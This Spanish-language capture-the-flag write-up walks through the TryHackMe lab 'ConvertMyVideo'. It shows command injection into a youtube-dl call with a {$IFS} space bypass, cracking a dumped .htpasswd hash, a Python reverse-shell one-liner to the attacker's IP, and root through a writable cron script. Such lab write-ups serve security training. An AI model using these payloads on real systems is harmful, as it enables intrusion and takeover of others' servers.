








TryHackMe - ConvertMyVideo

Contenido
| Titulo | ConvertMyVideo |
|---|---|
| Room | ConvertMyVideo |
| Info | My Script to convert videos to MP3 is super secure |
| Puntos | 320 |
| Dificultad | Media |
| Maker | overjt |
NMAP
Escaneo de puertos tcp, nmap nos muestra el puerto http (80) y el puerto ssh (22) abiertos.
# Nmap 7.80 scan initiated Tue May 5 19:02:47 2020 as: nmap -sV -o nmap_scan_mini convertmyvideo.thm
Nmap scan report for convertmyvideo.thm (10.10.1.154)
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 5 19:03:30 2020 -- 1 IP address (1 host up) scanned in 43.02 seconds
HTTP
Encontramos una pagina sencilla en el puerto 80, en la que nos muestra un formulario en donde nos pide un ID de un video de YouTube. 
GOBUSTER
Utilizamos gobuster para busqueda de directorios y archivos.
root@upset:~/thm/convertmyvideo# gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://convertmyvideo.thm/ -q -t 25 -x php,html,txt
/admin (Status: 401)
/images (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/js (Status: 301)
/server-status (Status: 403)
/tmp (Status: 301)
Dentro del codigo fuente de la pagina encontramos el codigo de envio del ID en Javascript, el cual envia la URL de youtube añadiendole el ID.

Utilizamos Burpsuite para capturar el envio de el ID, le agregamos un ID erroneo y nos da una respuesta en el que nos devuelve el error que se generó.

COMMAND INJECTION
Eliminamos la URL y enviamos algo diferente, y vemos que el mensaje de error contiene el nombre de una herramienta que se utiliza para descargar videos de YouTube - youtube-dl.

Para verificar que esa herramienta esta siendo utilizada con la pagina, enviamos la flag --help para confirmar que es esa herramienta, y nos devolvió todas las opciones.

Al parecer la pagina esta utilizando youtube-dl para pasarle la url con el ID que ingresamos, mediante la ejecucion de la herramienta a traves de consola. Intentamos romper este comando y sus parametros, utilizamos command injection, con | y el comando id más el separador ; (punto y coma) esto para separar y no ejecutar los parametros adicionales. Logramos ejecutar el comando.

Ahora que podemos ejecutar comandos, comenzamos a enumerar los archivos que estan en la maquina, vemos que la direccion donde estamos es en /var/www/html y los archivos que se encuentran en esa direccion.

Logramos obtener el codigo fuente de index.php utilizando cat{$IFS}index.php (utilizamos {$IFS} para agregar espacios).

Vemos en el codigo fuente que ejecuta el comando youtube-dl con sus parametros y en medio pasa la URL que es ingresada por el usuario.

Vemos la carpeta de admin, la cual contiene un index.php y flag.txt.

Intentamos realizar cat a la flag.txt y obtenemos la primera.

Enumeramos la carpeta nuevamente con mas profundidad y econtramos el archivo .htaccess.

Ejecucion de Comando
total 36
drwxr-xr-x 6 www-data www-data 4096 Apr 12 04:42 .
drwxr-xr-x 3 root root 4096 Apr 12 01:07 ..
-rw-r--r-- 1 www-data www-data 152 Apr 12 03:58 .htaccess
drwxr-xr-x 2 www-data www-data 4096 Apr 12 05:05 admin
drwxrwxr-x 2 www-data www-data 4096 Apr 12 04:26 images
-rw-r--r-- 1 www-data www-data 1790 Apr 12 04:55 index.php
drwxrwxr-x 2 www-data www-data 4096 Apr 12 04:44 js
-rw-rw-r-- 1 www-data www-data 205 Apr 12 04:40 style.css
drwxr-xr-x 2 www-data www-data 4096 Apr 12 05:13 tmp
El archivo contiene lo siguiente y al parecer hay un archivo .htpasswd en la carpeta admin.
<Files /admin/.htpasswd>
Order allow,deny
Deny from all
</Files>
<Files /admin/.htaccess>
Order allow,deny
Deny from all
</Files>
Options -Indexes
Hacemos cat al archivo y logramos obtener un usuario y contraseña encriptada. 
Utilizamos john para obtener la contraseña. 
Ingresamos a la pagina utilizando el panel de /admin y vemos un boton que al presionarlo realiza la ejecucion de un comando.

Vemos que podemos ejecutar comandos:

USER - WWW-DATA
Utilizamos python para ejecutar nuestra shell inversa y ponemos a la escucha nuestro netcat.
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.1.160",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
Logramos obtener una shell con usuario www-data

PRIVILEGE ESCALATION
Mediante una enumeracion basica de binarios no encontramos alguno que nos puediera ayudar, utilizamos pspy para ver si existe algun cronjob en la maquina. Encontramos que se ejecuta un cronjob el cual ejecuta el archivo clean.sh que se encuentra en /var/www/html/tmp/.

Agregamos una shell inversa a este archivo y pusimos a la escucha netcat, logramos obtener una shell con usuario root y nuestra flag root.txt.
 
